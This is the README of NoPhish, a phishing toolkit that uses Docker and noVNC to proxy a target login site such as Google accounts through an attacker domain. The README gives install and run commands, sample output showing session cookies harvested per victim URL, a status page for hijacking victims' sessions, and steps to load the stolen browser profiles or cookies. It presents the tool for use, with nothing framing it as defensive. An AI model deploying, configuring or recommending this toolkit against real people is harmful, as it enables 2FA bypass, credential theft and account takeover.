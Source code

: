 # NoPhish
 
Another phishing toolkit which provides an docker and noVNC based infrastructure. The whole setup is based on the initial article of [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) and [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

A detailed description of the setup can be found here - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## Installation

Install the required python modules:

```console
pip install lz4
```

Install the setup (which will create the required docker images):

```console
setup.sh install
```

## Execution

The setup offers the following parameters:

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
         -z Compress profile to zip - will be ignored if parameter -e is set
         -p Additional URL parameters - if not set generic URL will be generated

```

A basic run looks like the following:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```

During the run the following overview provides a status per URL how many cookies or session informations have been gathered.

```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/v1/oauth2/authorize?access-token=b6f13b93-1b51-41c4-b8b4-b07932a45bd6 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v2/oauth2/authorize?access-token=fd54dbec-c057-4f46-8657-c0283e5661d9 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v3/oauth2/authorize?access-token=9d606939-b805-4c65-9e98-2624de2cd431 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v4/oauth2/authorize?access-token=84b8d725-7e87-439e-8629-53332092b68f :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Please note that the tool will export all cookies / session information even when it is not related to a successfull login.

Further you can also directly interact with the tool on the status page - `http(s)://%DOMAIN%:65534/status.php`. There you have the possability to disconnect the user and directly take over the session. 

## Using profile export
If you are using the complete FireFox profile export, you can just call firefox with -profile like that:

On Windows:
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\phis1-ffprofile\`

On Linux:
`firefox-esr -profile <PathToProfile>/phis1-ffprofile --allow-downgrade`

Everything is getting restored, including the latest site.

Please note by default you need to extract the zip archive or set the parameter `-z` to `false`. If the export format `-e simple` is chosen two json files will be generated which can be used with Cookiebro which is available for [Firefox](https://addons.mozilla.org/de/firefox/addon/cookiebro/) and [Chrome](https://chrome.google.com/webstore/detail/cookiebro/lpmockibcakojclnfmhchibmdpmollgn).


## CleanUp

During a run the script can be terminated with `ctrl` + `c` - all running docker container will then be deleted. To fully remove the setup run `setup.sh cleanup`.
